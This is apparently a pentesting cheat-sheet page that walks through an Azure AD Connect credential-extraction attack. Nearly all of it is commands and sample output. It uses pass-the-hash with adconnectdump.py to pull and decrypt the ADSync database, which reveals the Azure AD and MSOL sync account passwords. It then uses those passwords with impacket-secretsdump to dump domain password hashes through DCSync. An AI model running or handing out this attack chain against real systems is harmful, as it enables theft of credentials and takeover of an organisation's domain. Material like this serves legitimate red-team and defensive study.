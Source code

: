 ```yaml
---
title: "Azure AD Connect"
date: 2025-2-21
tags: ["Azure AD Connect", "Secretsdump", "ADSync", "Password", "Active Directory", "Windows"]
---
```


### Abuse #1: Azure AD Connect Password Extraction

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Start ADSync Service

```console
Set-Service -name adsync -StartupType automatic
```

```console
Set-Service -name adsync -status running -passthru
```

```console {class="sample-code"}
Set-Service -name adsync -status running -passthru
WARNING: Waiting for service 'Microsoft Azure AD Sync (adsync)' to start...

Status   Name               DisplayName                           
------   ----               -----------                           
Running  adsync             Microsoft Azure AD Sync
```

#### 2. Download ADSync.mdf and ADSync_log.LDF

```console
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH>
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Stopping service ADSync
[*] Downloading ADSync database files
[*] Starting service ADSync
[*] Querying database for configuration data
[-] RemoteOperations failed: [Errno 2] No such file or directory: 'ADSyncQuery.exe'
[*] Cleaning up...
```

#### 3. Queries credentials from the database

```console
# Copy both ADSync.mdf and ADSync_log.LDF to WindowsVM
.\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

```console {class="sample-code"}
PS C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release> .\ADSyncQuery.exe C:\adconnectdump\ADSyncDecrypt\ADSyncQuery\bin\Release\ADSync.mdf > out.txt
```

#### 4. Credentials Dump

```console
# Copy out.txt back to Linux
python3 adconnectdump.py <DOMAIN>/<USER>@<TARGET_DOMAIN> -hashes :<HASH> --existing-db --from-file out.txt
```

```console {class="sample-code"}
$ python3 adconnectdump.py SRV001/Administrator@srv001.example.local -hashes :7ddf32e17a6ac5ce04a8ecbf782ca509 --existing-db --from-file out.txt  
Azure AD Connect remote credential dumper - by @_dirkjan
[*] Loading configuration data from out.txt on filesystem
[*] Loading configuration data from out.txt on filesystem
[*] Querying LSA secrets from remote registry
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x987bea20b50bfc66c273c58af1db3f81
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
[*] DPAPI_SYSTEM 
[*] Found DPAPI machine key: 0x7d9f2ed42e9261104b0741930fe622a71b6b4f50
[*] NL$KM 
[*] New format keyset detected, extracting secrets from credential store
[*] Querying credential file 406287F0CFB069C8F8686B36D48A941E
[*] Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
[*] Decrypted ADSync user masterkey using SYSTEM UserKey + SID
[*] Found correct encrypted keyset to decrypt data
[*] Decrypting DPAPI data with masterkey 22D587F4-2779-4509-BA70-A611200BCC5E
[*] Decrypting encrypted AD Sync configuration data
[*] Azure AD credentials
[*]     Username: Sync_SRV001_2a1d03e02d11@a67632354763outlook.onmicrosoft.com
[*]     Password: A9]*w+X#Ox(YQ%{/
[*] Local AD credentials
[*]     Domain: example.LOCAL
[*]     Username: MSOL_2a1d03e02d12
[*]     Password: Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

#### 5. Secrets Dump

```console
impacket-secretsdump <DOMAIN>/<USER>:'<PASSWORD>'@<TARGET_DOMAIN> -just-dc
```

```console {class="sample-code"}
$ proxychains4 -q impacket-secretsdump example.local/MSOL_2a1d03e02d12:'Mf#o@7f%CG^p}7fhAX*kubH:=nc:+-Vr%@OTf(Dli}GRM@YYt/a%{_XH%wmtI(Z]teQg+E0:Jw#vU;*[!^S76-#@:J|$-|>x-I)$Rd*N&TkIt+vJnAaI;)toY+J2m=z'@dc.example.local -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ddf32e17a6ac5ce04a8ecbf782ca509:::
---[SNIP]---
```

<small>*Ref: [adconnectdump](https://github.com/dirkjanm/adconnectdump/tree/master)*</small>

{{< /tabcontent >}}
